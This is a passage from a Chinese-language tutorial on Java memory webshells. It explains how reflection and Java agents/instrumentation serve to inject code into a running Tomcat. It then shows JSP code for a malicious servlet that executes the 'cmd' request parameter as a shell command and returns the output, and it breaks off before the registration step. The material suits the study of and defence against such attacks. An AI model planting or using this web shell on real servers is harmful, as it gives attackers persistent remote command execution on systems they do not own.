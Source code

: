 > a. 获取对象成员变量 & 赋值  
> b. 调用对象的方法  
> c. 判断对象所属的类

在注入内存马的过程当中，我们可能需要用到反射机制，例如注入一个 servlet 型的内存马，我们需要使用反射机制来获取当前的 context，然后将恶意的 servlet（wrapper）添加到当前的 context 的 children 中。  
在使用 Java 反射机制时，主要步骤包括：

①获取 目标类型的 Class 对象

②通过 Class 对象分别获取 Constructor 类对象、Method 类对象 & Field 类对象

③通过 Constructor 类对象、Method 类对象 & Field 类对象分别获取类的构造函数、方法 & 属性的具体信息，并进行后续操作

2.3.2 java instrumentation

Instrumentation 是 Java 提供的一个来自 JVM 的接口，该接口提供了一系列查看和操作 Java 类定义的方法，例如修改类的字节码、向 classLoader 的 classpath 下加入 jar 文件等。使得开发者可以通过 Java 语言来操作和监控 JVM 内部的一些状态，进而实现 Java 程序的监控分析，甚至实现一些特殊功能（如 AOP、热部署）。

Java agent 是一种特殊的 Java 程序（Jar 文件），它是 Instrumentation 的客户端。与普通 Java 程序通过 main 方法启动不同，agent 并不是一个可以单独启动的程序，而必须依附在一个 Java 应用程序（JVM）上，与它运行在同一个进程中，通过 Instrumentation API 与虚拟机交互。  
在注入内存马的过程中，我们可以利用 java instrumentation 机制，动态的修改已加载到内存中的类里的方法，进而注入恶意的代码。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38Be1kM5rEicDXb0mZnziaD7XdmoashDpibvrb0L4OGia1uJ8nRZOqbkqqlC8PTP1UVb4YIPGicdOwicdSw/640?wx_fmt=jpeg)

三、内存马实现
-------

这里我们以 tomcat 的 servletAPI 型内存马为例讲一下内存马的实现。下面的代码先是创建了一个恶意的 servlet，然后获取当前的 StandardContext，然后将恶意 servlet 封装成 wrapper 添加到 StandardContext 的 children 当中，最后添加 ServletMapping 将访问的 URL 和 wrapper 进行绑定。

```
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.PrintWriter" %>

<%
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
```